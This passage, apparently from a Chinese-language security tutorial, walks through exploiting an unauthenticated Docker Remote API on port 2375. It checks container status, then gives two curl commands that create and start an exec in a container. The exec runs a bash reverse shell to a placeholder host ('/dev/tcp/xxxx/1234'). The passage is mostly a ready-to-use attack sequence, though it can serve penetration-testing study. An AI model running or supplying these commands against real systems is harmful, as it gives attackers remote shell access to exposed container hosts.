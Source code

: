 [![](assets/1698894613-3cd2a103b000ed19a86d01b83dbf61ce.png)](https://storage.tttang.com/media/attachment/2022/03/12/f674af83-725e-46c4-bc14-fb7cd4b655f8.png)

我们选一个来试试水

可以发现是成功的调用了 API 查询了容器状态

[![](assets/1698894613-e71e312f44338625082265120fb81532.png)](https://storage.tttang.com/media/attachment/2022/03/12/6ac4bf7b-e165-41fd-97e2-a66b6dab57ef.png)

然后我们可以通过如下指令，在指定容器内部执行命令

```bash
curl -X POST "http://ip:2375/containers/{container_id}/exec" -H "Content-Type: application/json" --data-binary '{"Cmd": ["bash", "-c", "bash -i >& /dev/tcp/xxxx/1234 0>&1"]}'
```

获取到一个 id

[![](assets/1698894613-c5e9e63271b7f9c1156a0f74c5b46cac.png)](https://storage.tttang.com/media/attachment/2022/03/12/b9dc7fba-24e1-49ca-b668-96fa7e8669ee.png)

然后请求这个 id，执行此命令

```bash
curl -X POST "http://ip:2375/exec/{id}/start" -H "Content-Type: application/json" --data-binary "{}"
```
